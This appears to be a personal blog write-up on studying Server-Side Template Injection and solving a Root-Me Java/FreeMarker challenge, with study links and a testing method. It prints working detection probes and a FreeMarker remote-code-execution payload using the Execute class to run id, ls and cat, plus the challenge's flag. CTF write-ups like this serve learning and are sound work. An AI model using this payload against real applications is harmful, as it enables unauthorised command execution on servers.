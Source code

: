 +++
title = "Deepening My SSTI Knowledge: From Study to a Root-Me RCE"
description = "A journey from studying the theory of Server-Side Template Injection (SSTI) to applying it to solve a Java/FreeMarker challenge on Root-Me."
date = "2025-09-09"
draft = false
tags = ["SSTI", "RootMe", "Cybersecurity", "Java", "FreeMarker", "RCE"]
+++

After my first taste of Server-Side Template Injection (SSTI) with the PicoCTF challenge, I was hooked. It was a relatively straightforward introduction, and it left me wanting to learn more. This post documents my journey of diving deeper into SSTI, from studying the theory to solving a more complex challenge on Root-Me.

---

## Broadening My SSTI Understanding

I started by consuming as much information as I could find on SSTI. Here are some of the resources I found most helpful:

*   [https://www.youtube.com/watch?v=x_1A9rCxREs](https://www.youtube.com/watch?v=x_1A9rCxREs)
*   [https://tcm-sec.com/find-and-exploit-server-side-template-injection-ssti/](https://tcm-sec.com/find-and-exploit-server-side-template-injection-ssti/)
*   [https://hackerone.com/reports/125980](https://hackerone.com/reports/125980)
*   [https://github.com/DiogoMRSilva/websitesVulnerableToSSTI](https://github.com/DiogoMRSilva/websitesVulnerableToSSTI) (last update is older than 3 years)
*   [https://www.pmnh.site/post/writeup_spring_el_waf_bypass/](https://www.pmnh.site/post/writeup_spring_el_waf_bypass/)
*   [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)
*   [https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Server-Side%20Template%20Injection%20RCE%20For%20The%20Modern%20Web%20App%20-%20BlackHat%2015.pdf](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Server-Side%20Template%20Injection%20RCE%20For%20The%20Modern%20Web%20App%20-%20BlackHat%2015.pdf)
*   [https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

### Key Takeaways

*   **SSTI vs. XSS:** While they might seem similar, SSTI is far more dangerous. It attacks the server's internals directly, often leading to Remote Code Execution (RCE), whereas Cross-Site Scripting (XSS) is a client-side vulnerability.
*   **Template Engines as a Feature:** Many applications, like wikis, blogs, and content management systems, intentionally expose template engines to users for rich functionality. The key is whether these engines are properly sandboxed.

### A Methodology for SSTI

I formulated a simple methodology for tackling potential SSTI vulnerabilities:

1.  **Detect:** Look for plaintext input that gets rendered with some processing. This is a prime candidate for SSTI.
2.  **Identify:**
    *   Probe with invalid syntax to trigger errors that might reveal the template engine.
    *   Use a decision tree of payloads to identify the engine.
    *   Use tools like Wappalyzer to identify the server's language and framework, which helps narrow down the possibilities.
3.  **Exploit:**
    *   **Read the Docs:** Once the engine is identified, read its documentation, paying close attention to security sections and built-in methods.
    *   **Explore:** Understand the environment and look for gadgets that can be abused.
    *   **Attack:** Build an attack vector and iterate until you find something that works. Escalate the attack to achieve a higher impact, like RCE.

---

## The Root-Me Challenge: Java SSTI

With a solid theoretical foundation, I was ready for a new challenge: [Java - Server-side Template Injection](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection).

### Detection and Identification

The challenge presented a simple form that took a `nickname` as input. I used Caido to replay the request and automate the testing of a list of common SSTI payloads from the [PayloadBox repo](https://github.com/payloadbox/ssti-payloads).

Here is the `curl` command for the request:
```bash
curl 'http://challenge01.root-me.org/web-serveur/ch41/check' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0' \
  -H 'Accept: text/plain, */*; q=0.01' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'Origin: http://challenge01.root-me.org' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://challenge01.root-me.org/web-serveur/ch41/' \
  -H 'Cookie: _ga_SRYSKX09J7=GS2.1.s1757387996$o1$g1$t1757388045$j11$l0$h0; _ga=GA1.1.1521611932.1757387996' \
  -H 'Priority: u=0' \
  --data-raw 'nickname=hi'
```

Two payloads worked:

*   `%24%7B6*6%7D` (URL-decoded: `${6*6}`) resulted in `36`
*   `%23%7B3*3%7D` (URL-decoded: `#{3*3}`) resulted in `9`

This suggested a Java-based template engine. To confirm, I sent a payload with invalid syntax: `%24%7B%7B3*3%7D%7D`. The server responded with a detailed error message:

```json
{
    "timestamp": 1757388561239,
    "status": 500,
    "error": "Internal Server Error",
    "exception": "freemarker.core.ParseException",
    "message": "..."
}
```

The exception clearly identified the template engine as **FreeMarker**.

### Exploration and Exploitation

Now that I knew I was dealing with FreeMarker, I started researching ways to achieve RCE. I found that the `freemarker.template.utility.Execute` class could be used to run shell commands.

My first attempt to use it failed, likely due to a syntax error or issues with URL encoding:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

I took a step back and started with a simpler payload to confirm I could assign variables:

```freemarker
<#assign myVar = "Hello World"> ${myVar}
```

This worked! It returned `Hello World`. Now, I tried to instantiate the `Execute` class again:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex}
```

This returned a 200 OK response, but no output. This was a good sign. It meant the object was likely created successfully. I was expecting an object hash, but the empty response was still promising.

I then revisited my RCE payload, making sure the syntax was correct. I realized I had made a silly mistake in my first attempt: I had forgotten the closing curly brace `}`. With the corrected payload, I was able to execute the `id` command:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

The server responded with:

```
uid=1109(web-serveur-ch41) gid=1109(web-serveur-ch41) groupes=1109(web-serveur-ch41),100(users)
```

I had RCE!

### Getting the Flag

Now for the final steps:

1.  **List the files:**

    ```freemarker
    <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("ls -la") }
    ```

    This revealed a file named `SECRET_FLAG.txt`.

2.  **Read the flag:**

    ```freemarker
    <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat SECRET_FLAG.txt") }
    ```

And there it was: **`B3wareOfT3mplat3Inj3ction`**

---

This challenge was a fantastic way to solidify my understanding of SSTI. It required a more methodical approach than the PicoCTF challenge and highlighted the importance of careful payload construction and error analysis.

---

## Related Posts

*   [My First SSTI Adventure: A PicoCTF Walkthrough](/post/picoctf-ssti-journey/)